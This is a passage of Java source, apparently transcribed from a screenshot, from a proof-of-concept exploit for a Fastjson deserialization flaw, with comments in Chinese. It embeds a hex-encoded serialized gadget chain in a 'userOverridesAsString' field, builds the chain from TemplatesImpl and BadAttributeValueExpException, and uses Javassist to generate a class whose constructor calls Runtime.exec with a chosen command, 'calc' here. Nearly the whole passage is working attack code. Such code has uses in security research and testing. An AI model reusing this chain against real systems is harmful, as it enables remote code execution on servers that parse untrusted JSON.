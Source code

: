```java
                "        \"userOverridesAsString\":\"HexAsciiSerializedMap:" + evil_hex + ";\",\n" +
                "    }\n" +
                "}\n";
        System.out.println(FJ1247);
        JSON.parseObject(FJ1247);
    }
    //这里用的cc6，可以随意引用其他反序列化链
    public static Object gen() throws NoSuchFieldException, IllegalAccessException {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates,bd);

        return hashMap;
    }

    //将类序列化为字节数组
    public static byte[] tobyteArray(Object o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(o);   //
        return bao.toByteArray();
    }

    //字节数组转十六进制
    public static String bytesToHex(byte[] bytes) {
        StringBuffer stringBuffer = new StringBuffer();
        for (int i = 0; i < bytes.length; i++) {
            String hex = Integer.toHexString(bytes[i] & 0xff);      //bytes[]中为带符号字节-255~+255，&0xff: 保证得到的数据在0~255之间
            if (hex.length()<2){
                stringBuffer.append("0" + hex);   //0-9 则在前面加‘0’,保证2位避免后面读取错误
            }else {
                stringBuffer.append(hex);
            }
        }
        return stringBuffer.toString();

    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
```